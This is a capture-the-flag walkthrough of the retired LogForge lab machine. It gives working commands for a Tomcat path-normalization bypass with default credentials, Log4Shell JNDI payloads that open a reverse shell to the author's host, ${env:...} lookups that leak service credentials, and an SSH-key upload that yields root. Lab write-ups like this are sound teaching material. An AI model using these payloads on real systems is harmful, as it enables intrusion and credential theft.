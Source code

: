# LogForge

This is the write-up for the box LogForge that got retired at the 23rd December 2022.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.138    logforge.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/logforge.nmap 10.10.11.138
```

```
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website shows only an image so lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.11.138 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds _manager_ and _admin_, but both result in the HTTP status code _403 Forbidden_.

When browsing to a directory that does not exist, then it shows an HTTP status code _404 Not Found_ and reveals **Apache Tomcat/9.0.31** as the webserver in the footer.

By using the vulnerability in the [talk from BlackHat 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), it is possible to access restricted paths.

Using the payload on page 48 to access _/manager_:
```
http://10.10.11.138/a/..;/manager/
```

It now asks for authentication and the default credentials of **Tomcat** are working:
```
tomcat:tomcat
```

When trying to deploy a **WAR file** to execute code, it shows an error that the permitted file size is one byte, which will not work.
As **Tomcat** is a Java application, it may use **Log4j** for logging in the background and we can try to exploit the **Log4Shell** vulnerability.

Sending the payload in any field:
```
${jndi:ldap://10.10.14.7:8000/test}
```

After sending the request with the payload in any field, the listener on my IP and port 8000 receives a connection so this vulnerability can be used for code execution.

Creating a payload with [ysoserial-modified](https://github.com/pimps/ysoserial-modified):
```
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1' > logforge_payload.ser
```

Starting the listening server with the [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit):
```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.7:1389 -P logforge_payload.ser
```

Sending one of the created payloads in any field:
```
${jndi:ldap://10.10.14.7:1389/p7ac94/CustomPayload}
```

After sending the request, the LDAP listener will receive a connection and execute the reverse shell command.
The listener on my IP and port 9001 starts a shell as the user _tomcat_.

## Privilege Escalation

In the initial port scan, the FTP service on port 21 was filtered.
When searching the processes, it shows that it is running a Java application as root:
```
ps -ef | grep -i ftp
```
```
root         987     986  0 15:57 ?        00:00:05 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```

Testing if the FTP service is vulnerable to **Log4Shell**:
```
ftp localhost
```
```
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.7:8000/test}
```

The listener on my IP and port 8000 receives a connection, so this service is also vulnerable to **Log4Shell**.
Unfortunately this is a custom application, which does not use any of the default gadgets to create a payload with **ysoserial**.

The _jar_ file can be found in the root directory _ftpServer-1.0-SNAPSHOT-all.jar_ and can be analyzed with a decompiler like [JD-GUI](https://java-decompiler.github.io/).

In the main _Worker.class_ it sets two environment variables:
```
private String validUser = System.getenv("ftp_user");

private String validPassword = System.getenv("ftp_password");
```

By sniffing the traffic with **Wireshark**, it should be possible to intercept the values of the variables.

Sending the payload to the FTP service to get the environment variable _ftp_user_:
```
Name (localhost:tomcat): ${jndi:ldap://10.10.14.7:1389/${env:ftp_user}}
```
```
ippsec
```

Sending the payload to the FTP service to get the environment variable _ftp_password_:
```
Name (localhost:tomcat): ${jndi:ldap://10.10.14.7:1389/${env:ftp_password}}
```
```
log4j_env_leakage
```

The credentials work and it is possible to login to the FTP service.
The FTP service is in the home folder of root and it is possible to upload an SSH key in _/root/.ssh/authorized_keys2_.

Creating _authorized_keys2_ in the folder with our generated public SSH key:
```
ftp> cd .ssh
ftp> put authorized_keys2
```

Login with root via SSH:
```
ssh -i logforge_root.key root@10.10.11.138
```
